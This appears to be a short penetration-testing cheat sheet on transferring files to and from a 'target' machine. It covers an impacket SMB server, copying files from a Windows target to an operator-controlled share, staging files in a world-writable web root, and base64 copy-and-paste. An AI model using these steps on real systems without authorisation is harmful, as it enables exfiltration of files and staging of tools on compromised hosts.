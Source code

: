 # File-Transfer
## Collection of File Transfer possibilities

Sometimes it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\myIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\myIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver

## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp *.ext /var/www/html/
chmod 0777 /var/www/html/*.ext
http://target.URL/file.ext
```

## Base64
If all else fails, there is always plan y. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string.
```bash
vim string.b64
```
Paste the string to any Text-Editor.
```bash
base64 -d string.b64 > file.ext
```
